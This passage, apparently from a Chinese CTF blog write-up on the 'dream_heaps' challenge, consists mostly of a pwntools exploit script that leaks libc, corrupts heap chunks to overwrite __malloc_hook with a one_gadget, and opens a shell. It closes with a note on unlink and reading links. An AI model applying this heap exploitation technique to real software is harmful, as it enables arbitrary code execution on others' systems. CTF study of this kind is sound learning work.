 ```python
	p.send(c)
def show(idx):
	cmd(2)
	p.sendlineafter("ad?\n",str(idx))
#context.log_level='debug'
p=process('./dream_heaps')
add(0x88,"A")#0
add(0x88,"B")#1
free(0)
add(0x88,"A")#2
show(2)
base=u64(p.read(6).ljust(8,'\x00'))-(0x7ffff7dd1b41-0x00007ffff7a0d000)
log.warning(hex(base))
libc=ELF("./dream_heaps").libc
libc.address=base

add(0x3f0,"A")#3
add(0x400,"A")#4
add(0x288,"A")#5
free(3)
free(1)
add(0x68,"A")#6
edit(6,"A")
add(0x88,"B1")#7
add(0x68,'B2')#8
free(7)
free(4)
add(0x2d8,"A")#9
free(8)
add(0xa8,p64(0)*17+p64(0x71)+p64(libc.symbols['__malloc_hook']-35))#10
add(0x68,"A")#11
one=base+0xf02a4
add(0x68,"\x00"*19+p64(one))#12
gdb.attach(p)
free(12)
p.interactive()
```

可以看出在已知`chunk_ptr`地址时且有`edit`功能利用`unlink`可以降低攻击复杂度加快exp完成速度.
这里再次感谢[`楠姐@keenan`][2]

# 拓展阅读
[storm][3]


[1]:https://github.com/n132/Watermalon/blob/master/swapctf_2019/Dream_heap/dream_heaps
[2]:https://genowang.github.io/
[3]:https://n132.github.io/2019/04/13/STORM/